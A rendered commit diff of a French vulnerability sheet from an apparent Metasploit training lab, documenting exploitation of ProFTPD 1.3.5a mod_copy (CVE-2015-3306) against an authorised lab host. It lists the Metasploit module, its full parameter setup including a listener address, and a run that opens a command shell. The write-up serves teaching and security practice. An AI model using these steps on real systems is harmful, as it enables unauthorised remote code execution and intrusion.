

Before and after one commit to Joha12A/metasploit-training-lab-esgis, a Markdown page: docs/vulnerabilites/vuln-02.md, the part around one of its changes. Shown at 90% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/vulnerabilites/vuln-02.md
+++ b/docs/vulnerabilites/vuln-02.md
@@ -1,19 +1,61 @@
-# Fiche Vulnérabilité N°02 — FTP alternatif (ProFTPD)
+# Fiche Vulnérabilité N°02 — ProFTPD mod_copy (CVE-2015-3306)
 
 ## 1. Contexte et Identification
-- **Service cible** : FTP alternatif (ProFTPD)
-- **Port d'écoute** : `2121/tcp`
+- **Service cible** : ProFTPD (serveur FTP alternatif)
+- **Port d'écoute FTP** : `2121/tcp`
+- **Port d'exécution web associé** : `8080/tcp` (Apache / PHP 7.4.3)
 - **Version détectée** : `ProFTPD 1.3.5a`
 - **Référence CVE** : `CVE-2015-3306`
-- **Score CVSS v3** : `9.8 (Critique)`
+- **Score CVSS v3** : `9.8 (Critique)` — Vecteur : `CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
 - **Cible autorisée** : ESGIS VulnBox (`10.1.0.1`)
 
-## 2. Observations Techniques
-- **Description du composant** : Service identifié via le scan de bannières Nmap (`reports/nmap-services.txt`).
-- **Vecteur d'exposition** : Port réseau direct accessible à travers le tunnel WireGuard (`10.1.0.1`).
-- **Module Metasploit associé** : `exploit/unix/ftp/proftpd_modcopy_exec`
+---
+
+## 2. Démarche Méthodologique & Observations
+
+### A. Détection initiale (Nmap)
+Le scan de caractérisation réseau (`reports/nmap-services.txt`) a mis en évidence le service suivant sur le port non standard `2121` :
+```text
+PORT     STATE SERVICE VERSION
+2121/tcp open  ftp     ProFTPD 1.3.5a
+```
+
+### B. Recherche du module sous Metasploit
+```text
+msf6 > search proftpd 1.3.5
+
+Matching Modules
+================
+   #  Name                                   Disclosure Date  Rank       Check  Description
+   -  ----                                   ---------------  ----       -----  -----------
+   0  exploit/unix/ftp/proftpd_modcopy_exec  2015-04-22       excellent  Yes    ProFTPD 1.3.5 - 'mod_copy' Remote Command Execution
+```
+
+### C. Analyse technique du module (`info`)
+- **Mécanisme de la faille** : Le module `mod_copy` de ProFTPD 1.3.5 permet à un utilisateur **non authentifié** d'émettre les commandes personnalisées `SITE CPFR` (*Copy From*) et `SITE CPTO` (*Copy To*).
+- **Vecteur d'exploitation combinée** : Le service FTP est utilisé pour copier un payload PHP arbitraire vers la racine d'un serveur web local (`/var/www/html`), qui est ensuite exécuté par une requête HTTP GET.
+
+### D. Paramétrage spécifique
+Ce module requiert de distinguer le port FTP du port web :
+```text
+msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
+msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 10.1.0.1
+msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RPORT_FTP 2121
+msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RPORT 8080
+msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
+msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 10.1.0.6
+```
+
+### E. Contrôle passif (`check`)
+La commande `check` a confirmé sans ambiguïté la présence de la vulnérabilité :
+```text
+[+] 10.1.0.1:8080 - The target appears to be vulnerable. 10.1.0.1:2121 - Unauthenticated SITE CPFR command was successful
+```
+
+### F. Exécution contrôlée (`run`)
+La commande `run` a envoyé les instructions de copie, déposé le fichier PHP et ouvert une session interactive (`Command shell session 1 opened`).
+
+---
 
 ## 3. Preuves Réelles
-> [!NOTE]
-> *Cette section sera complétée uniquement avec les captures d'écran et sorties console obtenues lors de l'exercice encadré.*
 
````
Also changed, not shown: other parts of docs/vulnerabilites/vuln-02.md (+23 -10 lines), README.md (+3 -3 lines), docs/06-resultats.md (+10 -7 lines), screenshots/05-resultats/vuln-02-poc.png (added).
